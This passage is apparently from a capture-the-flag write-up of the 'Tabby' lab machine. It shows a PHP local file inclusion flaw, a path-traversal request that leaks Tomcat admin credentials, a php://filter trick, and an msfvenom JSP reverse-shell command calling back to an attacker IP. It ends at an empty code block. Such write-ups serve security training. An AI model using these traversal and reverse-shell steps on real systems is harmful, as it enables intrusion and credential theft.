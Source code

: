 ```
Content-Type: text/html; charset=UTF-8

<?php
$file = $_GET['file'];
$fh = fopen("files/$file","r");
while ($line = fgets($fh)) {
  echo($line);
}
fclose($fh);
?>
```
As we can see the file is using ```fopen()```, if instead it used ```include()``` the code would have been executed instead than just being printed, and we would have had the chance to turn this LFI into RCE.  
In this case when we have include to exfiltrate php code we can use php filter function (e.g: ```php://filter/convert.base64-encode/resource=news.php```).  
Now let's try to enumerate files of tomcat, relying on [HackTricks for tomcat](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat), as we can see there, we can enumerate users by including the following file.  
```
GET /news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml HTTP/1.1
Host: megahosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
As we can see we get the list of users that can authenticate against tomcat as admin:  
```
[... SNIP ...]
<role rolename="admin-gui"/>
<role rolename="manager-script"/>
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
[... SNIP ...]
```
Now that we have credentials for tomcat let's try to leverage this attack vector in order to gain an initial foothold.

## Foothold
As we open tomcat manager page we can see the following error message:  
```
403 Access Denied

You are not authorized to view this page.

By default the Manager is only accessible from a browser running on the same machine as Tomcat. If you wish to modify this restriction, you'll need to edit the Manager's context.xml file.
```
However, according to [HackTricks for tomcat](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat) we do not need to use the manager gui to upload a war, we can simply use a curl command.  
So, now, let's prepare our payload with msfvenom:  
```
root@kali Tabby ]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.17 LPORT=9001 -f war -o revshell.war                                                                                                                               
Payload size: 1091 bytes                                   
Final size of war file: 1091 bytes                         
Saved as: revshell.war
```
And use the following curl command to deploy the war file:  
```
```